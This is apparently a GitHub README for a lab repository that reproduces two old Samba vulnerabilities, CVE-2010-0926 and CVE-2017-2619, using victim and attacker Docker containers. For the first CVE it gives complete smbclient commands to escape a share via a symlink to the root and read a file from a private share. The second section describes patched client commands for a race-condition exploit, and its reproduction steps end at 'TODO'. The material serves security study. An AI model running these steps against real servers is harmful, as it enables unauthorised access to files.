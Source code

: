 # vulnsamba

This repo contains proof of concept exploits for 2 CVEs on old versions of samba.<br>
For each CVE, there are two docker containers: `victim` and `attacker`.





## Table of contents

* [CVE-2010-0926](#cve-2010-0926)
  * [Information and links](#information-and-links)
  * [Containers description](#containers-description)
  * [Instructions to reproduce](#instructions-to-reproduce)
* [CVE-2017-2619](#cve-2017-2619)
  * [Information and links](#information-and-links-1)
  * [Containers description](#containers-description-1)
  * [Instructions to reproduce](#instructions-to-reproduce-1)





## CVE-2010-0926


### Information and links
More on mitre: [CVE-2010-0926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0926)<br>
Category: [CWE-22 Path Traversal](https://cwe.mitre.org/data/definitions/22.html)<br>
Vulnerable version: `samba-3.4.5`<br>
Exploit was taken from: https://www.exploit-db.com/exploits/33599


### Containers description

* `victim` container contains `samba-3.4.5`, which was built from the sources, and configured to have two shares: `public` and `private`
* `attacker` container contains patched version of `samba-3.4.5` client, which allows creating symlinks to outside of a share


### Instructions to reproduce

1. Pull the needed images from dockerhub<br>
`docker pull kezzyhko/cve-2010-0926_victim`<br>
`docker pull kezzyhko/cve-2010-0926_attacker`

1. Run the vulnerable server<br>
`docker run -it --name cve-2010-0926_victim kezzyhko/cve-2010-0926_victim`<br>
You may see no sign of anything happening, but that's ok, `smbd` should have started working in the background

1. Find out the server container's ip<br>
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cve-2010-0926_victim`<br>
Remember it, we will need it to connect to the server.

1. Run the attacker container. It contains patched version of samba-3.4.5 client<br>
`docker run -it --name cve-2010-0926_attacker kezzyhko/cve-2010-0926_attacker`

1. In the attacker container, connect to the server as a guest using `smbclient`<br>
`smbclient -N \\\\<ip>\\public`<br>
Note, that `\` characters are repeated twice, because they need to be escaped

1. Create the symlink to the root (or any other folder outside share)<br>
`symlink / rootfs`

1. Finally, get the secret from the private share<br>
`cd rootfs`<br>
`cd private`<br>
`get secret.txt`<br>
`exit`<br>
`cat secret.txt`<br>
You should see the following string: `You f0und 7he s3cret!`





## CVE-2017-2619


### Information and links
More on mitre: [CVE-2017-2619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-2619)<br>
Categories: [CWE-59 Link Following](https://cwe.mitre.org/data/definitions/59.html) and [CWE-362 Race Condition](https://cwe.mitre.org/data/definitions/362.html)<br>
Vulnerable version: `samba-4.5.2`<br>
Exploit was taken from: https://www.exploit-db.com/exploits/41740


### Containers description

* `victim` container contains:
  * `samba-4.5.2`, which was built from the sources
  * configuration to have `public` share
  * `\secret` - file inside the root directory
* `attacker` container contains patched version of `samba-4.5.2` client. Patch adds two commands to `smbclient`:
  * `rename_loop <src1> <src2> <dest>` - infinite loop, which renames `<src*>` to `<dest>` and then back, so that `<dest>` will constantly switch between being `<src1>` and `<src2>`
  * `dump <file>` - infinite loop, which constantly tries to output `<file>`'s contents and ignores errors


### Instructions to reproduce

1. Pull the needed images from dockerhub<br>
`docker pull kezzyhko/cve-2017-2619_victim`<br>
`docker pull kezzyhko/cve-2017-2619_attacker`

TODO
